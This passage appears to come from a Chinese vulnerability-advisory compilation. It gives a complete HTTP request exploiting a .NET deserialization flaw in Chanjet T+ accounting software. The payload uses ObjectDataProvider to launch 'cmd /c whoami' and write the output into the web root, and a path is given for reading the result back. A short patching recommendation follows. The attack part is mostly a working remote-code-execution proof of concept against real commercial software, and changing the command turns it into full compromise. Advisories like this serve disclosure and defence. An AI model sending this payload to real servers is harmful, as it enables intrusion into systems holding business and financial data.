 ![img](https://wdcdn.qpic.cn/MTY4ODg1NDI4MDM2MjE0OQ_69981_Fbtn1rACelbRJLzH_1691891391?w=1242&h=623&type=image/png)



```
POST /tplus/ajaxpro/Ufida.T.CodeBehind._PriorityLevel,App_Code.ashx?method=GetStoreWarehouseByStore HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/34.0.1847.137 Safari/4E423F
Connection: close
Content-Length: 668
X-Ajaxpro-Method: GetStoreWarehouseByStore
Accept-Encoding: gzip

{
  "storeID":{
    "__type":"System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
    "MethodName":"Start",
    "ObjectInstance":{
      "__type":"System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
      "StartInfo":{
        "__type":"System.Diagnostics.ProcessStartInfo, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
        "FileName":"cmd",
        "Arguments":"/c whoami > C:/Progra~2/Chanjet/TPlusStd/WebSite/2RUsL6jgx9sGX4GItQBcVfxarBM.txt"
      }
    }
  }
}
```





![img](https://wdcdn.qpic.cn/MTY4ODg1NDI4MDM2MjE0OQ_473902_8Ip5KrWO0UpURwxc_1691891448?w=1326&h=353&type=image/png)



```
/tplus/xxx.txt
```





![img](https://wdcdn.qpic.cn/MTY4ODg1NDI4MDM2MjE0OQ_262661_QLJm88UPA-bgi-or_1691891482?w=1287&h=239&type=image/png)

**处置建议****：**升级版本或安装厂商官方补丁（[产品更新 —畅捷通产品—畅捷通社区](https://www.chanjetvip.com/product/goods/)），用于提升系统自身安全性，同时，可通过安全设备快速感知漏洞利用行为并进行预警或阻断。

#####             22.     **金盘微信管理平台 getsysteminfo 未授权访问漏洞**
